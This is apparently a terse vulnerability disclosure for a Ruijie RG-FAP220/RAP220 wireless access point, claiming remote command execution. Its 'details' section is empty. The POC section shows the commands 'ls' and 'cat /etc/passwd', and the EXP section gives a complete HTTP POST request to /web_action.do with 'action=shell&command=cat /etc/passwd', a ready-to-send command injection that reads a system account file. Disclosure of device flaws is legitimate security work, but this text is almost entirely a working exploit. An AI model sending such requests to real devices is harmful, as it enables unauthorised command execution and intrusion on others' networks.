 # RG-FAP220 RCE

## Overview

![image-20231222163155940](https://github.com/funny-mud-peee/IoT-vuls/blob/main/RG-RAP220(V2)/img/image-20231222163155940.png)

## Vulnerability details



## POC

ls

![image-20231222164924298](https://github.com/funny-mud-peee/IoT-vuls/blob/main/RG-RAP220(V2)/img/image-20231222164924298.png)

cat /etc/passwd

![image-20231222163247926](https://github.com/funny-mud-peee/IoT-vuls/blob/main/RG-RAP220(V2)/img/image-20231222163247926.png)

## EXP

```
POST /web_action.do HTTP/1.1
Host: 192.168.110.1
Content-Length: 38
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.110.1
Referer: http://192.168.110.1/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: LOCAL_LANG_COOKIE=zh; UI_LOCAL_COOKIE=zh; mac=0074.9ce6.95c0; SID=D65FDBE5CA6D86B59F94D3BF3872D87
Connection: close

action=shell&command=cat /etc/passwd
```

